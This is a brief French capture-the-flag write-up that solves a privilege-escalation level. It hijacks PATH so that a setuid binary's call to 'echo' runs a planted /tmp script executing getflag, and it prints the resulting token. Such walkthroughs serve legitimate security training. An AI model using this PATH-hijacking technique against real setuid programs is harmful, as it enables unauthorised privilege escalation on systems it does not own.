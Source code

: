 une fois connecté : 
```shell
ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
on remarque que le user flag03 à les droits d'exec
```shell
strings level03
...
/usr/bin/env echo Exploit me
...
```
le fichier execute un echo

on cree un faux echo qui remplacera et executera getflag
```shell
echo "getflag" > /tmp/echo
```
on le rend executable:
```shell
chmod 755 /tmp/echo
```
on rajoute /tmp en début de notre PATH:
```shell
PATH=/tmp:$PATH
```
et on execute level03
```shell
./leve03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
